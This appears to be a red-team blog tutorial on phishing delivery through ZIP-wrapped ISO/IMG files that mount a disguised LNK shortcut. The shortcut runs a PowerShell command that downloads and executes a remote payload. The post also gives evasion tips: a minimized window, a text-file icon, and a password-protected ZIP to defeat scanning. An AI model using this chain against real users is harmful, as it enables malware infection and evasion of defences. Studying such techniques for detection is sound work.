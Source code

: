```yaml
---
title: Abusing ISO/IMG Files
author: Z0ldyck
date: 2022-08-17 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [REDTEAM]
---
```


السلام عليكم ورحمة الله وبركاته

# introduction

Lately, I have been developing my custom tools and implementing/recreating some of the known techniques used by threat actors. Well, this post is not going to be focused on any specific tool but will showcase one technique that I enjoyed reimplementing and some advice for people who are looking to advance their work specifically for Red Teamers (It could help blue ppl, but I would assume they already do that). I think one of the biggest things that most red teamers (to be specific the ppl in my circle) are missing or not giving some time for is reading reports related to Threat Actors' new techniques. Most of these reports at the first sight might feel that the target audience is mostly Threat Hunters, but in reality, it will help both sides. One side can discover/identify these threats and the other can use them or even advance/change them to something even better, whatever the case is. My point is It doesn't matter what group you are in, reading them will 100% benefit you. I will suggest looking into reports related to Threat Actors from Mandiant/CrowdStrike. There is more, but these are faviourt ones


In this post, I will be going over one of the techniques that I see many threat actors using to compromise victims' machines. This technique is very well known for many blue teamers. You can find below a full map of the execution:

![](../../images/isoimg/1.png)

The attack is straightforward, we will be sending phishing emails that contain or provide a link to download a ZIP file. After decompressing the ZIP file the user would find an IMG/ISO file. A double click from the user will mount a disk containing an LNK file that will download our malicious payload and run it.

I will skip the email and the ZIP file part as these are not the main focus of this post (There is a ton of ways to deliver your files). First, create your malicious payload and host it on a web server, you can use your C2 web server or anything similar. Moving on to creating our LNK file, there is a lot of ways to create one. You can even use powershell/C# to create it, but we will just use the simple method cause why not :)


## LNK FILE

Create a shortcut of any app you have first, then open file properties. Check the image below:

![](../../images/isoimg/2.png)

Here is what you need to consider:

- Target → This is where you will put your command. You can use something like the command below to download and run your malicious payload:
```
powershell wget http://<your_webserver>/malware.exe -O C:\somewhere; malware.exe
```

(Note: Don’t use this command to deliver your payloads, it is not the best way and you will get caught immediately. This is just an example lol)

- Run → Set it to Minimized (Just trust me :p )

- File icon → I think you need to consider that. In the Shortcut section click on “Change Icon” and browse to “C:\Windows\System32\shell32.dll”. You will have a bunch of icons to choose from. I went with the text file icon.

## ISO FILE

This should be enough for the LNK file. Now let’s create the ISO file. I will be using AnyBurn to do this process, but you can use whatever you prefer. You might be wondering why would we go with an ISO/IMG file, the answer is simple users will double click it and a new CD Drive will be attached, and in some cases, it will bypass some security solutions. After creating the ISO you can just save it into an archive and somehow deliver it with some magic to the victim :p

In AnyBurn select “Create image file from files/folders”

![](../../images/isoimg/3.png)

In the new window add your folder/file and click on “Next”

![](../../images/isoimg/4.png)

Next, you will choose where to save your ISO file. By clicking “Create Now” your file will be created and saved in that destination.

![](../../images/isoimg/5.png)

![](../../images/isoimg/6.png)

## DEMO

Now all you need to do is save it in a ZIP file because there is a tone of solutions that started triggering ISO/IMG files. I would also suggest making a ZIP file protected with a password so these solutions wouldn’t be able to scan them (If that’s wrong correct me please!). Here is a demo of the whole process:

![](../../images/isoimg/dev.mp4)

<html> 
<body> 
<video width="1768" controls>
  <source src="../../dev.mp4" type="video/mp4">
</video>
</body> 
</html>

I hope you enjoyed reading this post, I will be sharing more stuff (I don’t know why I am doing that at the end of my break lol)

